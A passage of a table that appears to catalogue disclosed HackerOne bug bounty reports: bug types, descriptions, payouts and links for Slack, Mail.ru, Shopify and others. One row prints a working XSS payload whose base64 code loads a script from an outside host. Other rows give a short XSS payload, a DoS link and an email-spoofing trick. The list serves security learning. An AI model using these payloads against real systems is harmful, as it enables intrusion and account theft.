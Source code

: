 414 | Code injection | XSS to RCE by uploading html as part of a snippet. The map-function allows arbitrary inclusion of resources, leading to being able to execute any command. There are also multiple issues with storage of payloads in Slack's environment, leading to being able to host code on trusted domains. | $1750 | Slack | https://hackerone.com/reports/783877
415 | XSS | Due to taking unsantizied input from websockets and rendering it on the recipients side, it is possible to achieve XSS on support desk conversations and gain access to support tickets and client information. The payload was: `ws.send('{"action":"send_message","data":{"type":2,"uuid":"katO0xuiIy","media_thumb":"xxdata\\" onerror=\\"eval(atob(\'dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vcGl0ci54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7\'));//","media_url":"media-url"},"uuid":"katO0xuiIy","token":"bz+OjfTeBL/BRozszXwKbT10voEb0crFVRWBktvQifQ=","projectId":1,"messengerType":9}')` | $500 | QiWi | https://hackerone.com/reports/512065
416 | Improper authentication | Due to improper parsing and display of the from address, it was possible to send emails from any @mail.ru address while passing DKIM and DMARC verification, even though the email is spoofed. The bug happens when there are two "From" headers and the incorrect, but spoofed address is added as "From<SPACE>: <address>". This attack is also a replay-attack where you require a previously sent and verified email from the address provider. | $150 | Mail.ru | https://hackerone.com/reports/731878
417 | IDOR | IDOR in dictor.mail.ru allowed an attacker to get any video information through GraphQL query | $2500 | Mail.ru | https://hackerone.com/reports/924914
418 | Information disclosure | Config files were accessible for warofdragons.my.games, leaking database credentials and other information | $150 | Mail.ru | https://hackerone.com/reports/786609
419 | CRLF injection | www.starbucks.com/email-prospectt was vulnerable to CRLF injection allowing for header injection (for example injecting CORS headers) or HTTP response splitting, which can be further exploited. | $250 | Starbucks | https://hackerone.com/reports/858650
420 | XSS | It is possible to achieve stored XSS if an attacker can upload files using Active storage, by utilizing the proxy-functionality included in Ruby on Rails. | $500 | Ruby on Rails | https://hackerone.com/reports/949513
421 | XSS | It was possible to achieve stored XSS in the Post title on Imgur. This was achieved using a standard `"><svg` payload. | $250 | Imgur | https://hackerone.com/reports/942859
422 | Logic bug | Email bypass for shopify accounts that did not have Shopify IDs. This allowed an attacker to exploit a flaw in the flow, allowing for taking over these accounts without any verification. | $22,500 | Shopify | https://hackerone.com/reports/867513
423 | Information leak | Anonymous access to a Sidekiq process dashboard was possible on shopper.sbermarket.ru | $500 | Mail.ru | https://hackerone.com/reports/951190
424 | DoS | Browser-dependent DoS by injecting invalid link: `http://twitter.com:627732462` | $1120 | Twitter | https://hackerone.com/reports/903740
